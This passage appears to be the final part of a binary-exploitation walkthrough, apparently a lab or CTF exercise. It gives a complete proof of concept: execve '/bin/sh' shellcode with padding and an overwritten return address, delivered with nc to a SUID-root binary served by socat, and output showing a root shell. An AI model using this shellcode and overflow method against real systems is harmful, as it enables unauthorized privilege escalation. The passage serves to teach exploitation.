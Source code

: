 As seen on the outpu of **x/20wx $eax** command in gdb, we have obtained our goal. 

My debugger has some issues, but **/bin/dash** was executed. Let's finish this off in **Final PoC** part of this walkthrough.


#### 2.3 Final PoC

```py
python2 -c 'import sys; sys.stdout.write("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A"*53 + "\x86\x83\x04\x08")' > exploit.bin
```

Privilege escalation set up.

```js
$ sudo chown root 5
$ sudo chmod u+s 5
$ ls -l 5
-rwsrwxr-x 1 root c 8264 Mar  1 04:57 5

$ socat -dd TCP4-LISTEN:"8080",fork,reuseaddr EXEC:"./5",pty,echo=0,raw
```

From another terminal.

```js
$ (cat exploit.bin; cat) | nc localhost 8080
id
uid=1000(c) gid=1000(c) euid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare),1000(c)
whoami
root
```
